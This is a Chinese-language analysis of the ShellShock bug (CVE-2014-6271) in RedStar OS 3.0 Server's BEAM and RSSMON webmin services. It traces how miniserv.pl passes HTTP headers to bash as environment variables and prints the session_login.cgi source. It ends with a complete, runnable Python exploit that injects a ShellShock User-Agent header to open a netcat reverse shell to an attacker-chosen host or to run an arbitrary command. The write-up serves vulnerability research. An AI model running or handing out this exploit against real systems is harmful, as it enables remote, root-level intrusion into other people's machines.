

## CVE-2014-6271漏洞分析

### 漏洞介绍

Bash4.3以前的版本中存在ShellShock漏洞，由于在解析环境变量的函数定义过程中没有进行适当过滤，导致命令执行漏洞。RedStar OS 3.0 Server的Bash版本受到此漏洞的影响，通过利用该系统默认以root权限运行的BEAM或RSSMON程序，可以进行命令注入或者本地提权攻击 (Local Privilege Escalation)。BEAM和RSSMON都是运行在RedStar系统本地基于webmin的服务程序，使用perl脚本作为服务端，当通过构造带有有效攻击载荷的HTTP请求头请求`session_login.cgi`页面时，服务端程序会将HTTP请求头字段作为环境变量保存，因此触发ShellShock漏洞。

### 漏洞分析

BEAM服务是通过运行目录`/usr/libexec/beam`下的`miniserv.pl`脚本开启的，可以手动进行调试。


单步调试，可以看到在589行之前代码主要功能是读取文件`/etc/beam/miniserv.conf`中的配置内容，以及程序的初始化，从589行开始程序进入主循环，准备等待来自客户的新连接。


当接收到新的连接请求时运行到第772行，会调用`fork`函数产生一个子进程。


子进程运行的代码如下：


可以看到在第799行调用了`handle_request`函数会对接收到的请求进行处理，在第1079行查看函数定义：


从函数的第2007行开始，对CGI请求进行了处理，并对环境变量进行了初始化。


在2073行将web请求的HTTP头中的字段存储在环境变量中。



在2164行调用`exec`函数执行CGI，`exec`函数会调用系统bash来执行命令，进而触发ShellShock漏洞。


`session_login.cgi`的代码如下：

```
#!/usr/bin/perl
# session_login.cgi
# Display the login form used in session login mode

$pragma_no_cache = 1;
#$ENV{'MINISERV_INTERNAL'} || die "Can only be called by miniserv.pl";
require './web-lib.pl';
require './ui-lib.pl';
&init_config();
&ReadParse();
if ($gconfig{'loginbanner'} && $ENV{'HTTP_COOKIE'} !~ /banner=1/ &&
    !$in{'logout'} && !$in{'failed'} && !$in{'timed_out'}) {
	# Show pre-login HTML page
	print "Set-Cookie: banner=1; path=/\r\n";
	&PrintHeader();
	$url = $in{'page'};
	open(BANNER, $gconfig{'loginbanner'});
	while(<BANNER>) {
		s/LOGINURL/$url/g;
		print;
		}
	close(BANNER);
	return;
	}
$sec = uc($ENV{'HTTPS'}) eq 'ON' ? "; secure" : "";
&get_miniserv_config(\%miniserv);
$sidname = $miniserv{'sidname'} || "sid";
print "Set-Cookie: banner=0; path=/$sec\r\n" if ($gconfig{'loginbanner'});
print "Set-Cookie: $sidname=x; path=/$sec\r\n" if ($in{'logout'});
print "Set-Cookie: testing=1; path=/$sec\r\n";
&ui_print_unbuffered_header(undef, undef, undef, undef, undef, 1, 1, undef,
			    undef, "onLoad='document.forms[0].pass.value = \"\"; document.forms[0].user.focus()'");

if ($tconfig{'inframe'}) {
	# Framed themes lose original page
	$in{'page'} = "/";
	}

print "<center>\n";
if (defined($in{'failed'})) {
	print "<h3>$text{'session_failed'}</h3><p>\n";
	}
elsif ($in{'logout'}) {
	print "<h3>$text{'session_logout'}</h3><p>\n";
	}
elsif ($in{'timed_out'}) {
	print "<h3>",&text('session_timed_out', int($in{'timed_out'}/60)),"</h3><p>\n";
	}
print "$text{'session_prefix'}\n";
print "<form action=$gconfig{'webprefix'}/session_login.cgi method=post>\n";
print "<input type=hidden name=page value='".&html_escape($in{'page'})."'>\n";
print "<table border width=40% class='loginform'>\n";
print "<tr $tb> <td><b>$text{'session_header'}</b></td> </tr>\n";
print "<tr $cb> <td align=center><table cellpadding=3>\n";
if ($gconfig{'realname'}) {
	$host = &get_display_hostname();
	}
else {
	$host = $ENV{'HTTP_HOST'};
	$host =~ s/:\d+//g;
	$host = &html_escape($host);
	}

$imgbanner='/images/ho-2.gif';
print "<tr><td rowspan=4 align=center></td><td colspan=2 align=center>",
      &text($gconfig{'nohostname'} ? 'session_mesg2' : 'session_mesg',
	    "<tt>$host</tt>"),"</td> </tr>\n";
print "<tr> <td><b>$text{'session_user'}</b></td>\n";
print "<td><input name=user size=20 value='".&html_escape($in{'failed'})."'></td> </tr>\n";
print "<tr> <td><b>$text{'session_pass'}</b></td>\n";
print "<td><input name=pass size=20 type=password></td> </tr>\n";
print "<tr> <td colspan=2 align=center nowrap><input type=submit value='$text{'session_login'}'>\n";
print "<input type=reset value='$text{'session_clear'}'><br>\n";
if (!$gconfig{'noremember'}) {
	print "<input type=checkbox name=save value=1> $text{'session_save'}\n";
	}
print "</td> </tr>\n";
print "</table></td></tr></table><p>\n";
print "</form></center>\n";
print "$text{'session_postfix'}\n";

# Output frame-detection Javascript, if theme uses frames
if ($tconfig{'inframe'}) {
	print <<EOF;
<script>
if (window != window.top) {
	window.top.location = window.location;
	}
</script>
EOF
	}

&ui_print_footer();
```

exp的代码如下：

```
#!/usr/bin/env python
# RedStar OS 3.0 Server (BEAM & RSSMON) shellshock exploit
from requests.packages.urllib3.exceptions import InsecureRequestWarning
import subprocess
import requests
import sys
import os

def spawn_shell(cbport):
    subprocess.call('nc -l ' + cbport, shell=True)

def shellshock(soft,ip,port,cbip,cbport):
    requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
    if soft == "beam":
        user_agent = {'User-agent': '() { :; }; /bin/bash -c "rm /tmp/.f;mkfifo /tmp/.f;cat /tmp/.f|/bin/sh -i 2>&1|nc '+cbip+' '+cbport+' >/tmp/.f"'}
    else:
        shellstring = '() { :; }; %s' % (cbip)
        user_agent = {'User-agent': shellstring}
    print "[-] exploiting shellshock CVE-2014-6271..."
    myreq = requests.get("http://"+ip+":"+port+"/session_login.cgi", headers = user_agent, verify=False)

if __name__ == "__main__":
    print "[+] RedStar OS 3.0 Server (BEAM & RSSMON) shellshock exploit"
    if len(sys.argv) < 5:
        print "[-] Use with <beam> <host> <port> <connectback ip> <connectback port>"
        print "[-] Or with <rssmon> <host> <port> <cmd>"
        sys.exit()
    if(sys.argv[1]=="beam"):
        shellshock(sys.argv[1],sys.argv[2],sys.argv[3],sys.argv[4],sys.argv[5])
    else:
        shellshock(sys.argv[1],sys.argv[2],sys.argv[3],sys.argv[4],0)
```